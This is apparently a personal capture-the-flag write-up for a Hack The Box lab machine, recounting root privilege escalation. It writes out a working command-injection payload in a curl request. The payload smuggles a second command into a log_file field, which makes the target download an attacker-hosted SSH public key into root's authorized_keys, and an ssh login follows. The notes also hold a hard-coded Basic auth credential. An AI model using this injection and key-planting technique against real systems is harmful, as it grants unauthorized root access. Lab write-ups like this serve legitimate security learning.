 i run this command
![[Pasted image 20250311225313.png]]
now i am able to access this website:
![[Pasted image 20250311225422.png]]

**NOTE**
i had to turn on local host proxy within firefox for this to work

As you can see this is running root from screen shot

i find a system run command vulnerability that i am able to execute commands via sending curl command like ls

i tried for hours to get reverse shell, no luck, came close but couldnt find 0

i then with peeking around i found a .ssh dir in root/

im gonna upload my ssh key to it so i can just shell in, fuckers lol

so i start with generating new key and then serving my python3 server at port 80:
![[Pasted image 20250311230125.png]]
then just run a curl command:
Note you will need to use burpsuite to read request to find the auth_token
```
curl 'http://127.0.0.1:8000' \
  -H 'Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==' \
  --data-raw 'analyze_log=&log_file=;curl+http://10.10.14.3/ed25519_gen.pub+>>/root/.ssh/authorized_keys;#&'
```

![[Pasted image 20250311230336.png]]

means the target had successfully grabbed this key and now i will just straight up run this command to ssh into machine:
make sure your on the same dir as the python server... 
```
ssh -i ed25519_gen root@sea.htb
```

lol my idiot ass got stuck then realized. 

and grab root.txt :D

done!

